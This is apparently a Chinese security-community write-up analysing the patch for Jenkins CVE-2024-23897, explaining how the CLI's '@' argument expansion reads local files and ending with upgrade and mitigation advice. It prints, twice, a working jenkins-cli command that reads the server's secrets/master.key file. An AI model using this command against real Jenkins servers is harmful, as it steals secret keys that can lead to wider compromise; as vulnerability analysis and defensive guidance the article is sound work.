 

# 奇安信攻防社区 - 通过补丁分析 Jenkins 任意文件读取漏洞（CVE-2024-23897）

### 通过补丁分析 Jenkins 任意文件读取漏洞（CVE-2024-23897）

通过补丁分析 Jenkins 任意文件读取漏洞（CVE-2024-23897）

作者：Le1a@threatbook  
校验：jweny@threatboook

# 漏洞描述

Jenkins 是一个开源软件项目，是基于 Java 开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件项目可以进行持续集成。Jenkins 有一个内置的命令行界面（CLI），可从脚本或 shell 环境访问 Jenkins。处理 CLI 命令时，Jenkins 使用 args4j 库解析 Jenkins 控制器上的命令参数和选项。

Jenkins 处理 CLI 命令的命令解析器中的 expandAtFile 功能存在任意文件读取漏洞，未经身份认证的远程攻击者利用该漏洞可以读取部分文件的有限行内容，攻击者经过身份验证或目标 Jenkins 更改了默认”Security”配置可以通过该漏洞读取任意文件，攻击者进一步利用该漏洞并结合其他功能可能导致任意代码执行。

# 漏洞分析

该漏洞成因比较简单。  
通过补丁可以发现，主要是对`CLICommand.java`文件做了修改。

![image-20240125222325356](assets/1706496539-45bf62942bc476b6e1147c9dbd6fa036.png)

跟进该文件，可以发现在 main 函数中，把 CLI 的参数传入了`parseArgument()`函数进行解析

![image-20240125222441002](assets/1706496539-743658af3dff3a1cfd658b1dccf34ec3.png)

继续跟进

![image-20240125222705846](assets/1706496539-dab8f6b4146a65a0cf53ba961eddb70d.png)

继续跟进到`expandAtFiles()`函数后，可以发现，如果参数以`@`开头，那么将会把`@`后面的内容当作路径，建立一个 File 对象，并且会读取该文件的内容，并添加至 result 中返回。

![image-20240125222834555](assets/1706496539-d4711ffce4d02f50f8c2d16a96951e94.png)

而 CLI 参数可控，所以通过以下命令即可读取 Jenkins 中的`master.key`文件

```php
java -jar jenkins-cli.jar -s http://localhost:9095/ who-am-i @/var/jenkins_home/secrets/master.key
```

# 漏洞复现

通过 CLI 工具读取目标服务器上的 master.key 文件

```php
java -jar jenkins-cli.jar -s http://localhost:9095/ who-am-i @/var/jenkins_home/secrets/master.key
```

![9864903895a5f8fb7cd171b3a0e41987](assets/1706496539-944318d547c957fbaed9499a4c073689.png)

# 处置建议

-   使用[https://github.com/jenkinsci-cert/SECURITY-3314-3315中的脚本删除CLI](https://github.com/jenkinsci-cert/SECURITY-3314-3315%E4%B8%AD%E7%9A%84%E8%84%9A%E6%9C%AC%E5%88%A0%E9%99%A4CLI) HTTP 端点和禁用 SSH 端口
-   目前官方已有可更新版本，建议受影响用户升级至：Jenkins >= 2.442 或 Jenkins LTS >= 2.426.3。下载链接：[https://www.jenkins.io/download/](https://www.jenkins.io/download/)
